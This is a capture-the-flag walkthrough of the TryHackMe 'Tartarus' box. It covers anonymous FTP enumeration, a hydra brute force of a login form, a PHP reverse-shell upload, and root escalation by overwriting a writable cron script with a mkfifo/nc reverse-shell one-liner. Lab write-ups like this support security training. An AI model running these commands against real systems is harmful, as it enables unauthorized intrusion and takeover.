# Tartarus

*"This is a beginner box based on simple enumeration of services and basic privilege escalation techniques."* -[csenox](https://tryhackme.com/p/csenox)

1. [Scan/Enumeration](#scan/enumeration)
2. [Gain Shell](#gain-shell)
3. [Privilege Escalation](#privilege-escalation)

******

## [Scan/Enumeration]

We can start by doing an nmap scan.

`nmap -A -oN tartarus.nmap <ip>`



We have an FTP on port 21, SSH service on port 22 and Apache web server on port 80. The results say "Anonymous FTP login allowed". Let's connect to FTP anonymously. We can download the files with the get command.
User: anonymous
Pass: blank

`ftp <ip>`



We found a file named test.txt. We can try to navigate inside the shared directory on FTP.

`cd ..`
`cd ...`



We found another file called yougotgoodeyes.txt. Let's check these files.



/sUp3r-s3cr3t should be a website directory. Now we can start checking the website. If we look at the /sUp3r-s3cr3t directory, we can see that there is a login page. We can try bruteforce here, but first, let's try looking at the robots.txt file.



We found /admin-dir directory.



Let's download credentials.txt and userid file. The credentials.txt file looks like a password list and the userid file looks like a list of usernames. We can use these files to bruteforce the login page. We will use the hydra tool for bruteforce.

First we need to find out what kind of request we sent. We can go to the / sUp3r-s3cr3t directory, open the Inspect Element section and go to the Network section. Now we can try to login with random credentials. After doing this, we will see a POST request in the Network section. We can right click on this request and click Edit and Resend. Here, the Request Body field at the bottom right of the screen gives the information we need. [These are valid for firefox.](https://bentrobotlabs.wordpress.com/2018/04/02/web-site-login-brute-forcing-with-hydra/)

`hydra -L userid -P credentials.txt <IP> http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:F=Incorrect"`



******

## [Gain Shell]

We can now login to the site using this information.



Here is a page where we can upload files. We can try upload [php_reverse_shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). We can download the file and upload it after we write our own IP and port(49th and 50th lines). 



We uploaded the file. We need to run the file to get a shell. To run the file, we need to find where it is. We will do directory scan with gobuster to find it. I will use [common.txt](https://github.com/v0re/dirb/blob/master/wordlists/common.txt) list.

`gobuster dir -u http://<IP>/sUp3r-s3cr3t/ -w common.txt`



If we look at the images directory, we will see that there is a directory named uploads in it.



We will find the file we uploaded in it.



If we run the file while listening to the port with nc, we will get a shell.

`nc -nvlp <PORT>`



******

## [Privilege Escalation]

First of all, let's make shell more beautiful.

`export TERM=xterm`

`python -c 'import pty; pty.spawn("/bin/bash")'`



If we look at the /etc/crontab file, we will see that the file named cleanup.py runs periodically by using root privileges.



Let's look inside the file named cleanup.py.



The file regularly cleans the /home/cleanup/ directory. When we look at the file with the "ls -la" command, we see that we have write authority. So if we change the file with a reverse shell and wait a bit, we can get a shell with root privilege. I will write python reverse shell into the file with the echo command.

`echo 'import os; os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT>  >/tmp/f")' > cleanup.py`



Now we need to listen to the port with nc and wait. When the file runs again, we will get a shell with root privilege.



And now we are root user.
